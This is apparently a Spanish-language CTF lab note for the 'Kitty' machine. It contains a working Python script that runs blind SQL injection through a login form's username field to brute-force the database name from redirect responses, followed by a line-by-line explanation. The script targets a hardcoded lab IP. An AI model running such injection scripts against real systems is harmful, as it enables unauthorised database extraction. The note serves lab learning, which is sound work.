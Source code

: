 ```Python
import sys
import requests

def sqli(ip):
    symbols = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-/:$^ '
    tmp = ""

    while True:
        for i in symbols:
            post= {"username":f"' UNION SELECT 1,2,3,4 WHERE database() LIKE BINARY '{tmp+i}%' -- -","password":"doesntmatter"} #u can change this for other prposes
            req = requests.post(f"http://10.10.237.218/index.php", data=post,allow_redirects=False) #address can also be chnaged 
            status_code=req.status_code
            print(f"{i}", end='\r')
            if status_code == 302:
                tmp += i
                print(tmp)
                break
            elif i == " " :
                print("\n[#] Attack compleated B)")
                print(f"DB_NAME: {tmp}")
                exit()


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <ip>" % sys.argv[0])
        print("(+) Example: %s 192.168.0.1" % sys.argv[0])
        return
    url = sys.argv[1]
    print("(+) Retrieving database..")
    sqli(url)

if __name__ == "__main__":
    main()
```

- **Importaciones**:
	- `import sys`: Permite acceder a los argumentos de línea de comandos.
    - `import requests`: Facilita el envío de solicitudes HTTP.
- **Función `sqli(ip)`**:
    - Toma un parámetro `ip`, que se supone es la dirección IP o URL del servidor vulnerable.
    - Define una cadena de caracteres `symbols` que contiene los caracteres que se probarán para la inyección.
    - Inicia un bucle infinito que intentará construir gradualmente el nombre de la base de datos mediante inyecciones SQL.
- **Bucle de Fuerza Bruta**:
    - Para cada carácter en `symbols`, construye una consulta SQL utilizando el parámetro `username` en forma de una cadena de inyección SQL.
    - La consulta SQL intenta encontrar una coincidencia para el nombre de la base de datos utilizando el operador `LIKE BINARY`.
    - Envía la solicitud POST al servidor objetivo con la consulta SQL construida.
    - Comprueba el código de estado de la respuesta (`status_code`). Si es `302` (redirección), significa que la inyección tuvo éxito para ese carácter y se agrega al nombre de la base de datos temporal (`tmp`).
    - Si no se encuentra una coincidencia (`status_code` distinto de `302`), imprime el carácter probado y continúa con el siguiente.
- **Finalización del Ataque**:
    - Cuando se encuentra el carácter espacio `' '` en `symbols`, se asume que se ha completado la inyección de SQL (suponiendo que el nombre de la base de datos está completo).
    - Imprime un mensaje indicando que el ataque ha sido completado y muestra el nombre de la base de datos.
- **Función `main()`**:
    - Verifica que se proporcione exactamente un argumento desde la línea de comandos (la dirección IP del servidor vulnerable).
    - Llama a la función `sqli(ip)` con la IP proporcionada como argumento.
- **Ejecución Principal**:
    - Verifica si el script se está ejecutando directamente (`if __name__ == "__main__":`).
    - Llama a la función `main()` para iniciar el programa.

Y al ejecutarlo nos muestra lo siguiente en la salida
![[Pasted image 20240621114045.png]]

Creado en la maquina[[MAQUINA KITTY (SQL Injection, ataque de fuerza bruta a panel con burpsuite, portforwarding y escalada de privilegios con tarea cron)]]